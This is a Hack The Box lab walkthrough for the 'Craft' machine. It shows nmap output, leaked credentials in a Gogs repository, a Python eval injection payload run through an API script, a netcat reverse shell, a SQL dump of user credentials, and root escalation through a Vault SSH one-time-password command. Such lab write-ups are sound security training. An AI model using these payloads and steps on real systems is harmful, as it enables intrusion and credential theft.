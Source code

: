 #                                           Craft - Hack The Box Walkthrough

Victim IP: 10.10.10.110
Victim OS: Linux

### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds
```
### Enumerating the web page - https://craft.htb

![homepage](https://github.com/zomy22/zomy22.github.io)

The “API” link points to api.craft.htb and the “Sign in” button to “gogs.craft.htb” therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
<api_craft>

### Enumeration - https://gogs.craft.htb
Repository housing the code and content for api.craft.htb.
Reviewing all commits and merge requests, dinesh’s credentials were accidentally commited and removed. There is also a test.py script ready to be used to connect to the api.
<dinesh_creds>

Reviewing more code in the repository and especially the functions for the POST and PUT API options  leads to finding a vulnerable python function “eval”. This function resides in the POST brew function in brew.py.
<test.py>

### Initial foothold - Exploiting python eval function
Test 1: On local system:
<screen_shot>

That works.
Test 2: with a similar “if” statement like in test.py:
<screen_shot>

That works too, however there is no result returned when it is tried on the victim end.

Test 3. Ping from victim to local machine:
	```
  tcpdump -i tun0 -nnv icmp
  ```
	Payload (test.py): 
	```
  brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' 
  ```

Try 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.
	The payload becomes: 
  <screen_shot>

It’s says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy :( 

Running “cat /etc/issue”, LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py

Modify the SQL in the try statement to select all users from the database
```try: 
    with connection.cursor() as cursor:
        sql = "SELECT * from user" # show tables. 
        cursor.execute(sql)
        result = cursor.fetchall() #change from fetchone to fetchall
        print(result)

finally:
    connection.close()
```
Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
<screen_shot>

Gilfoyle’s OTP setup:
<screen_shot>


Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
<screenshot>



Then SSH to the host using the generated key and the root user:
<screenshot>

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
